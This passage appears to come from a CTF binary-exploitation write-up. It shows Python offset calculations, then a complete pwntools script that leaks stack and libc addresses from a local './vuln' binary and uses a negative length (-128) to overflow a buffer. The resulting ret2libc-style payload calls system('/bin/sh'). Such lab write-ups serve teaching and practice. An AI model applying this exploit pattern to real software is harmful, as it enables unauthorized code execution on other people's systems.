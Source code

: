 calculating the offsets in python:
```
>>> hex(0xff8647dc - 0xff864840)
'-0x64'
>>> hex(0xf7560060 - 0xf75859e0)
'-0x25980'
>>> hex(0xf7684a0f - 0xf75859e0)
'0xff02f'
```

So we can see here, the offset to the start of our ROP chain is `-0x64` from the stack address we have, system is `-0x25980` from setbuffer, and the offset for binsh is `0xff02f`. With this, we have everything needed for our exploit:

```
#Import pwntools
from pwn import *

#Establish the target process
target = process('./vuln')
gdb.attach(target)

#Prompt for input for a pasue
raw_input()

#Send the payload for the leak
leak_payload = "0"*16
print target.recvuntil("Enter username: ")
target.send(leak_payload)

#Scan in the infoleaks, filter them out, and calculate the needed address
leak = target.recvuntil("Enter length: ")
leak = leak.replace("Enter length: ", "")
setvbuf_adr = u32(leak[28:32]) - 11
buffer_adr = u32(leak[20:24]) - 0x64
system_adr = setvbuf_adr - 0x25980
binsh_adr = setvbuf_adr + 0xff02f
log.info("Address of setbuffer: " + hex(setvbuf_adr))
log.info("Address of system: " + hex(system_adr))
log.info("Address of binsh: " + hex(binsh_adr))
log.info("Address of buffer: " + hex(buffer_adr))

#Send -128 to allow a buffer overflow
target.sendline("-128")

#Form the payload to pop a shell, and send it
print target.recvuntil("Enter string (length 4294967168): ")
payload = p32(system_adr) + "pwnn" + p32(binsh_adr) + "0"*(0x50 - 12) + p32(buffer_adr + 4)
target.sendline(payload)

#Enjoy your shell
target.interactive()
```
